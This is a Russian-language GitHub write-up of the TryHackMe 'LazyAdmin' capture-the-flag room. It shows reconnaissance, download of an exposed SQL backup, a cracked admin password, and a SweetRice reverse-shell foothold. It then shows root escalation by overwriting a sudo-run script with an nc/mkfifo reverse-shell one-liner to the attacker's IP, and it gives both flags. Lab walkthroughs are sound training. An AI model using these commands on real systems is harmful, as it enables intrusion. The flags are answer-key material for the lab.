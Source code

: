[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [LazyAdmin](https://tryhackme.com/r/room/lazyadmin) 

Всего 1 заданиe:
## Задание 1
Развлекайтесь! Может быть несколько способов получить доступ пользователя.

### Ответить на вопросы ниже
Что такое флаг пользователя?
```commandline
nmap -sC -sV $IP
gobuster dir -u $IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -u $IP/content/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
wget http://$IP/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
cat mysql_bakup_20191129023059-1.5.1.sql
# 42f749ade7f9e195bf475f37a44cafcb
# https://crackstation.net/
# Password123

# $IP/content/as
Username: manager
Password: Password123

#  reverse shell php for CMS sweetrice 1.5.1
nc -nlvp 1234

$ whoami
www-data
$ cd /home
$ ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```
```commandline
THM{63e5bce9271952aad1113b6f1ac28a07}
```
Что такое корневой флаг?
```commandline
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

$ ls -l backup.pl
-rw-r--r-x 1 root root 47 Nov 29  2019 backup.pl
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

$ ls -l /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $my_IP 5555 >/tmp/f

nc -nlvp 5555

$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $my_IP 5555 >/tmp/f" > /etc/copy.sh
$ sudo perl /home/itguy/backup.pl

$ nc -nlvp 5555
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```
```commandline
THM{6637f41d0177b6f37cb20d775124699f}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)